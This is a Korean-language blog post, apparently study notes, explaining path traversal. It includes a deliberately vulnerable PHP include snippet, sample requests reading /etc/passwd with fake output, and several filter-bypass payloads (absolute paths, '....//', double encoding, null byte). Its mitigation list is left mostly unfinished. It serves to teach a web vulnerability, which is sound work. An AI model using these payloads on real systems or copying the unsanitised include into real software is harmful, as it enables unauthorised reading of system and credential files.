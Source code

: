 ```yaml
---
layout: single
title: Path Traversal
categories: Web-vuln
tag: [Path Traversal, web, web vulnerability, injection]
toc: true
author_profile: false
---
```

# Path Traversal 이란 무엇인가?

> ./(현재 디렉토리) 또는 ../(상위 디렉토리로 이동)를 나타내는 문자들이 제대로 필터링되지 않아 파일 시스템 API로 전달되어, 허용된 디렉토리가 아닌 숨겨진 디렉토리 및 파일에 대한 무단 access를 가능하게 하는 취약점이며, 보통 File 명과 같이 사용자의 입력값이 전달되어, 찾아오는 로직에서 많이 발견된다.

<hr>

**Vulnerability Code**

```php
<?php
$template = 'red.php';
if (isset($_COOKIE['TEMPLATE'])) {
    $template = $_COOKIE['TEMPLATE'];
}
include "/home/users/phpguru/templates/" . $template;

인용 : https://en.wikipedia.org/wiki/Directory_traversal_attack
```

위와 같은 File을 가져오는 로직이 구성되어있다고 생각해보자. 그럼 사용자의 입력값이 include "/home/users/phpguru/templates/" . 뒤에 고스란히 이어붙여 진다. 이 때 디렉토리 이동 명령어가 필터링 되어 제거되지않고 적용된다면 어떻게 될까?
<br><br>

```
GET /vulnerable.php HTTP/1.0
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
```

```
HTTP/1.0 200 OK
Content-Type: text/html
Server: Apache

root:fi3sED95ibqR6:0:1:System Operator:/:/bin/ksh 
daemon:*:1:1::/tmp: 
phpguru:f8fk3j1OIf31.:182:100:Developer:/home/users/phpguru/:/bin/csh
```

위와같이 passwd 파일을 탈취 될 수 있으며, 큰 피해로 이어질 수 있다.
<br><br>
이러한 취약점은 파일 경로에서 불러오는 경우와, API 요청을 통해 불러올 수도 있다.

```
/var/www/images/test.png/../../../etc/passwd

'''

https://insecure-test.com/findimage?filename=../../../etc/passwd
```

## 공격 표면

🌝 **<u>Path Traversal 취약점은 어떤 부분에서 나타나고 테스팅 해볼 수 있을까</u>** 
{: .notice--primary} 
<hr>
사용자의 요청이 서버내의 path로 연결되는 구간, API 요청에 의해 파일값을 불러오는 구간이 공격표면이 될 수 있다. 
<br>
./ 또는 ../ 와 같은 경로이동 문자열을 넣어봄으로써 응답값이 어떻게 돌아오는지 확인하면 Path Traversal 취약점이 존재하는지에 대한 유무 판단이 가능하다.

```
/var/www/images/test.jpg -> 200(ok)
/var/www/images/.test.jpg -> 200(ok)
/var/www/images/../images/test.jpg -> 200(ok)
```

하지만 위의 테스팅에서 200ok 를 받는다고 무조건 Path Traversal 취약점이 존재한다고 확신하기에는 불분명 하다.
<br>
이는 ./ 문자를 Path 그대로 받아들이는지 ./문자를 필터링하여 제거시켰는지에 대해 확실치 않기 때문이다.
<br>
이런 경우 ..//와 같이 ./가 제거되더라도 ..// → ./ 되기 때문에 테스팅해볼만하다.

```
/var/www/images/..//test.jpg
```

**<u>만약 위의 테스트 결과가 404(Not Found) 가 뜬다면 이는 ./ 문자열이 제거가 되지 않는다는것을 의미한다.  200 ok가 반환 되더라도, ./가 필터링 되어 ./가되거나 아니면 이러한 제거로직을 반복구성 해놓았을 가능성도 존재한다.</u>**

## Bypass - Path Traversal
### Basic Bypass

```
GET /image?filename=../../../etc/passwd 200 (ok)
```

경로 이동 문자열을 통해 파일 시스템 서버의 최상단으로 올라가 passwd파일을 추출한다.

### Traversal sequences blocking

./ ../ 와 같은 시퀀스를 차단하는 로직이 구현되어 있더라도, 파일 시스템이 절대경로를 통해 파일을 가져올 경우 경로 이동 문자열 없이 원하는 파일을 가져올 수 있다.

```
GET /image?filename=/etc/passwd HTTP/2 200 (ok)
GET /image?filename=../../../etc/passwd HTTP/2 400 Bad Request
```

### Traversal sequences blocking2

../ 시퀀스가 필터링 되어 차단되더라도 ….// 문자열을 입력했을 때 로직이 반복적으로 탐지하여 차단하는 경우가 아니라면 ../ 가 사라지고 ….// → ../가 남아 우회가능성이 존재한다.

```
GET /image?filename=../../../etc/passwd HTTP/2 400 Bad Request
GET /image?filename=....//....//....//etc/passwd HTTP/2 200 (ok)
```

### Traversal sequences blocking3

입력값 검증 후 제거하는 로직이 반복적으로 순회하도록 되어있을 경우, URL 인코딩 Double 인코딩
또는 비표준 인코딩 등을 사용하여 우회할 수 있다.

```
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/2 200 (ok)
```

### 정해진 위치에서부터의 경로 탐색

개발자가 특정 파일을 찾기위해서는 개발자가 정해놓은 특정 위치에서부터 절대경로로 검색해야 찾을 수 있도록 설정해놨을 경우도 존재한다.

```
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
```

### 만약 파일시스템에서 특정 확장자로 끝나는지에 대한 검증 로직이 존재한다면?

null 바이트 문자를 이용하여 우회할 수 있다.

```
GET /image?filename=../../../etc/passwd%00.jpg HTTP/2 200(ok)
```

<br><hr>
<div class="notice">
  <h4>이러한 진입점들을 잘 찾아내는것이 중요하다. 파일의 본문내용을 경로로 사용되는 부분도 존재하며, 요청값과 응답값을 잘 확인하자.</h4>
</div>
<hr>

# 대응 방안
1. 입력값에 대한 유효성 검사.
2. 

# Referance
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal